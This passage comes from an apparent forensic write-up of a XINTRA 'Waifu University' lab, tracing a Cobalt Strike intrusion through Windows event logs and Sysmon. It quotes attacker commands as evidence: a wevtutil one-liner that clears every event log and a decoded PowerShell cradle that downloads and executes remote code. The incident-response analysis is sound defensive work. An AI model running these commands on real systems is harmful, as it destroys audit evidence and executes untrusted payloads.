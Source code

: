 Assuming the adversary successfully obtained some credentials, a natural next step for the threat actor is to verify these credentials on other network machines using, e.g., `SMB` authentication via `NetNTLMv2`. Thus, as incident responders, our best choice is to carefully check for any share accesses now!

From the information already identified earlier when examining the recent documents from `C:\Users\ivanderplas1`, we know that there was a share on the domain controller named `SuperSecretSecureShare` storing a file named `you-cant-see-this-cause-I-am-good-at-NTFS-permissions.txt`. Putting this share in the context with the windows event logs (`EventID 5140`), we can confirm that the threat actor was accessing this share on the domain controller at `2024-03-05 21:39:40`.

Next, let us follow the timeline and see what the adversary may did next. We immediately find an interesting `Sysmon EventID 1` process execution event, where the user `WAIFU\ivanderplas1` is executing the following command-line

```Powershell
"C:\Windows\system32\cmd.exe" /c "cmd.exe /c  for /F \"tokens=*\" %%1 in ('wevtutil.exe el') DO wevtutil.exe cl \"%%1\""
```

which will try to list and clear all Windows Event Log Data. Also worth to notice here is the Parent command-line, i.e., `"\\192.168.0.13\SuperSecretSecureShare\print64.exe" --access-token uwuwuwuwuwuwuw`. Making this event even more interesting is the fact that, if checking the entire time range covered by the lab, there are only 16 of these or similar events attempting to clear the event log and all are on `2024-03-07` around `03:35 AM`. Thus, it is very likely that `print64.exe` is part of the attackers tooling and the activity observed is malicious.

Anyway, the real interesting question arising now is, what happened in the time between `2024-03-05` and `2024-03-07`. By just scrolling over the events we were not able to find anything suspicious, hence lets go one step back and check our pivoting points.

In my opinion our best bet would be to focus again on `python.exe`, i.e., the *"Cobalt Strike"* malware and check in more detail which child-processes and activity was initiated by this process. This approach will provide us with a bigger picture without getting lost in the details.

We start by focusing on `Sysmon` logs due to their well known tracking of parent-child process relations. Also, we will set the parent to the known `python.exe`. Only six events remain, where three are outside the scope of the attack. 

![[https://github.com/TekCookie75/TekCookie75.github.io/tree/master/assets/img/_posts/2024-12-15-XINTRA-Labs-Waifu-University/XINTRA-Waifu-CobaltStike.png]]

The `base64` encoded payload in the `PowerShell` command translates to `IEX (New-Object Net.Webclient).DownloadString('http://127.0.0.1:47914/')`. We already identified this inside the `Powershell` history found earlier. Assessing the `WerFault.exe` related events is a bit tricky. On the one hand side, `python.exe` may be simply crashed and reported by `WerFault.exe`; on the other hand side, we know from the *Cobalt Strike beacon*, that `WerFault.exe` is used to cover post-exploitation activity. At least to my knowledge, we do not have any chance to judge on whether `WerFault.exe` was legitimate or not, without having a forensic image of the volatile memory. So `Sysmon EventID 1` logs are a dead end. 

We move on and check which files were touched by `python.exe`. Filtering on `Sysmon`, `EventID 11`, and `Payload Data 3` (`Image`) to `python.exe` yields only one finding. The threat actor created the file `C:\ProgramData\SharpHound.exe` at `2024-03-06 02:18:41`, which we already found before by investigating the adversaries working directory. Anyway, now we can clearly confirm that the binary belongs to the actor.
